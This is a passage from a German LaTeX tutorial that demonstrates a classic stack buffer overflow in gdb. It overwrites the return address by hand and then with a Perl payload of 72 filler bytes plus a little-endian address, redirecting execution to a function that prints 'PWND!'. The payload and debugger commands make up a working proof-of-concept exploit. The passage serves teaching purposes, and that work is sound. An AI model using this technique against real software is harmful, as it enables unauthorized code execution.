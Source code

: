 \begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
(gdb) disas pwnd
Dump of assembler code for function pwnd:
   0x000000000040060c <+0>:     push   %rbp
   [...]	

End of assembler dump.
(gdb) x/12xg 0x7fffffffe950
0x7fffffffe950: 0x4141414141414141      0x00007ffff7ff9100
0x7fffffffe960: 0x00007ffff7ffe190      0x0000000000f0b2ff
0x7fffffffe970: 0x0000000000000001      0x000000000040069d
0x7fffffffe980: 0x00007fffffffe9be      0x0000000000000000
0x7fffffffe990: 0x00007fffffffe9b0      0x000000000040064c
0x7fffffffe9a0: 0x00007fffffffea98      0x0000000200000000
(gdb) set {char}0x7fffffffe998 = 0x0c
(gdb) set {char}0x7fffffffe999 = 0x06
(gdb) x/12xg 0x7fffffffe950
0x7fffffffe950: 0x4141414141414141      0x00007ffff7ff9100
0x7fffffffe960: 0x00007ffff7ffe190      0x0000000000f0b2ff
0x7fffffffe970: 0x0000000000000001      0x000000000040069d
0x7fffffffe980: 0x00007fffffffe9be      0x0000000000000000
0x7fffffffe990: 0x00007fffffffe9b0      0x000000000040060c
0x7fffffffe9a0: 0x00007fffffffea98      0x0000000200000000
(gdb) c
Continuing.
PWND!
[Inferior 1 (process 1190) exited normally]
(gdb)
\end{lstlisting}

Um den Aufwand einer manuellen Modifikation der Speicheradresse 
möglichst gering zu halten, kann man den Vorgang mit der \texttt{Perl} 
automatisieren:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
(gdb) run `perl -e 'print "A"x72 . "\x0c\x06\x40"'`
String: AAAAAAAAAAAAAAAAAAAAAAAAA ... AAAAAA@
PWND!
[Inferior 1 (process 1624) exited normally]
(gdb)
\end{lstlisting}

\newpage
Dabei werden insgesamt \SI{72}{Byte} mit dem Zeichen \texttt{A} 
überschrieben und \SI{3}{Byte} mit hexadezimalen Werten:

\begin{itemize}
      \item \SI{64}{Byte} Speicherplatz der \texttt{data}-Variablen    
      \item \SI{8}{Byte} Basepointer
      \item \SI{3}{Byte} Rücksprungadresse unter Berücksichtigung der Byteorder (Little-Endian)
\end{itemize}

\textbf{Hinweis:}

Wird zur Nachstellung des Beispiels ein veralteter \texttt{gcc}-Compiler 
in der Version 3.x\footnote{\url{http://www.trapkit.de/papers/gcc\_stack\_layout\_v1\_20030830.pdf}} 
verwendet, ist es möglich, dass dieses Beispiel nicht funktioniert!

